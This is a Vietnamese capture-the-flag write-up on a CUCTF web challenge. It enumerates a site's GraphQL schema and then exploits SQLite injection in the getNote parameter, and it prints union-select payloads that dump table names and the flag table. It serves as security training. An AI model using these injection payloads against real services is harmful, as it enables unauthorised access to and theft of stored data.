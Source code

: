 Nhìn trang web rất đơn giản, bấm thử 2 nút sẵn có đều không sang trang nào khác, quá tốt, chúng ta chỉ cần xem xét mỗi 1 URL thôi

![image-20210124091844508](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124091844508.png)

Tiếp theo, view source code của trang, trong đoạn script có 1 điểm đáng lưu ý:

![image-20210124091926342](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124091926342.png)

Vậy là trang web đã cho chúng ta biết cách để query theo GraphQL. Truy cập đường link để test kết quả:

`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`

chú ý dùng Burp Suite để thực hiện POST request, kết quả trả về là uuid của note mới được tạo, kết hợp với tên hàm chúng ta biết đây là hàm để tạo note.



Dùng payload có sẵn trên [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection) để dump ra cấu trúc của toàn bộ GraphQL trang web đang dùng, sử dụng tool [GrapQL visualization](https://apis.guru/graphql-voyager/) để có thể quan sát 1 cách hoàn hảo nhất:

![image-20210124093028361](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124093028361.png)

Thử 1 loạt những query để có thể dump hết dữ liệu của graphQL(bạn nào chưa biết query graphQL thế nào thì học ở [link](https://graphql.org/learn/) này):

`?query= allNotes{edges{node{uuid,title,body,authorId,author{uuid,username,id},id},cursor}}`

`?query= allUsers{edges{node{uuid,username,id}}}`

`?query=coolNotes{uuid,title,body,authorId,author{uuid, username, id},id}`

`?query=getNote(q:"[uuid string]"){uuid,title,body,authorId,author{uuid, username, id},id}`  với uuid string bằng 1,2,3,... 

Thử uuid bằng 4 thì hàm getNote trả về 1 flag có dạng CUCTF{}, nhưng theo cập  nhập của ban tổ chức thì đây là flag cũ không có hiệu lực. Đến đây thật sự khó vì sau khi dump toàn bộ data của graphQL, không tìm thấy từ khóa `flag` nào cả



Đến đây mình chợt nghĩ nếu tham số q được truyền vào không phải số hợp lệ thì sẽ như thế nào, bằng cách query:

`?query=getNote(q:"-1"){uuid,title,body,authorId,author{uuid, username, id},id}`

Kết quả trả về là RỖNG, chứ không phải là `tham số không hợp lệ`, như vậy có thể đoán họ không filter input người dùng. Thử 1 kí tự không phải số xem sao, mình thử ngay kí tự `'` :

![image-20210124093612712](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124093612712.png)

Wow, vậy đã rõ. Đây là challenge kết hợp của sqlite injection và graphQL injection. Câu query đằng sau cũng được lộ trong message lỗi:

`[SQL: SELECT * FROM NOTES where uuid=''']`

Vậy công việc còn lại chỉ là thao tác sqlite injection thông thường, trang web cũng không filter từ khóa gì cả nên các bước còn lại rất thuận tiện. 

query để lấy ra tên bảng:

`query={getNote(q:"1' union select 1,2,3,group_concat(tbl_name) from sqlite_master-- -"){title,body,authorId,id}}`

Response:

![image-20210124094144928](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20210124094144928.png)

query để lấy data trong bảng:

`query={getNote(q:"1' union select 1,2,* from العلم-- -"){title,body,authorId,id}}`

vậy là chúng ta đã lấy được flag
